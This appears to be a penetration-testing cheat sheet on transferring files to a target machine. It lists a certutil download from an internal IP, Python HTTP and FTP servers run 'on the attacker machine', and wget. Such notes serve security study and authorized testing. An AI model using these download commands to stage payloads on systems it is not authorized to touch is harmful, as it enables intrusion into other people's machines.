 
Certutil
	`certutil.exe -urlcache -f http://10.0.0.200/file.txt file.txt`
HTTP
	`python -m SimpleHTTPServer 80`
	`python3 -m http.server 80`
Browser
	Navigate to the file directly
FTP
	`python -m pyftpdlib 21 (attacker machine)`   on the attacker machine
	`ftp 10.10.10.10`     on the windows machine going into the attacker machine
Linux
	`wget`
